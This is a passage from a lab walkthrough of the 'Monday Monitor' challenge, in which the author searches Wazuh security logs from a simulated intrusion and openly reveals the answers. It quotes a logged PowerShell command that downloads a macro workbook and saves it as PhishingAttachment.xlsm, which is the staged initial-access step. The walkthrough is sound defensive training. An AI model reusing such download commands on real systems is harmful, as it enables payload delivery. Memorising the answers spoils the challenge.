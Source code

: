 # Monday Monitor

## Scenario

Swiftspend Finance, the coolest fintech company in town, is on a mission to level up its cyber security game to keep those digital adversaries at bay and ensure their customers stay safe and sound.

Led by the tech-savvy Senior Security Engineer John Sterling, Swiftspend's latest project is about beefing up their endpoint monitoring using Wazuh and Sysmon. They've been running some tests to see how well their cyber guardians can sniff out trouble. And guess what? You're the cyber sleuth they've called in to crack the code!

The tests were run on Apr 29, 2024, between 12:00:00 and 20:00:00. As you dive into the logs, you'll look for any suspicious process shenanigans or weird network connections, you name it! Your mission? Unravel the mysteries within the logs and dish out some epic insights to fine-tune Swiftspend's defences.

Once logged in, navigate to the **Security Events** module and use the saved query `Monday_Monitor` to access the logs.

### Questions

Heads up, I did **not** censor the answers in this walkthrough.

#### Question 1

1. Initial access was established using a downloaded file. What is the file name saved on the host?

After navigating to **Wazuh -> Modules -> Security Events** go to the top left under dashboard, click the floppy disk icon, and select `Monday_Monitor`

![saved_queries](https://github.com/user-attachments/assets/93cbdfbd-35e0-4621-9304-7d2da4b71d6a)

Near the top right side, select the Date area, and then select **Absolute**. We need to select this time period:

**Apr 29, 2024, between 12:00:000 and 20:00:000**

Make sure to press update after. Your dashboard should look like this now.

![time_period](https://github.com/user-attachments/assets/e15a8069-0529-4deb-b0d6-881a981cfbe4)

Now we know a suspicious file was downloaded, the question is how do we sort through the events to find it. Let's try sorting by HTTP. In the dashboard query search type "HTTP".

![http](https://github.com/user-attachments/assets/84553b4a-a11e-4996-8038-d99ee8ae5f09)

We find three events, let's examine them. I'm going to start with the earliest event chronologically. 

![first_alert](https://github.com/user-attachments/assets/7afb4e10-17c3-49e4-977f-99e64ffeae88)

We see the command `\"powershell.exe\" & {$url = 'http://localhost/SwiftSpend_Financial_Expenses.xlsm' Invoke-WebRequest -Uri $url -OutFile $env:TEMP\\PhishingAttachment.xlsm}` has been issued on the agent.
